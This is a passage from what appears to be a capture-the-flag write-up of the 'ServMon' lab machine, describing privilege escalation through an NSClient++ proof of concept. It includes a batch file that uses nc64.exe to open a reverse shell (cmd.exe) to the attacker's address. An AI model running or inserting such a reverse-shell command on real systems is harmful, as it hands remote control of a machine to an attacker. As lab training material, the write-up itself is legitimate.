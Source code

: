 ![nsclient_authed](/images/servmon/nsclient_authed.png) 

Following the exploit. 

The bat script can be created with

> @echo off
> c:\temp\nc64.exe 10.10.14.21 443 -e cmd.exe

Copy nc64.exe and evil.bat to c:\temp

Following the steps on the Poc,the script and the scheduler is created

![script_added](/images/servmon/add_script.png)
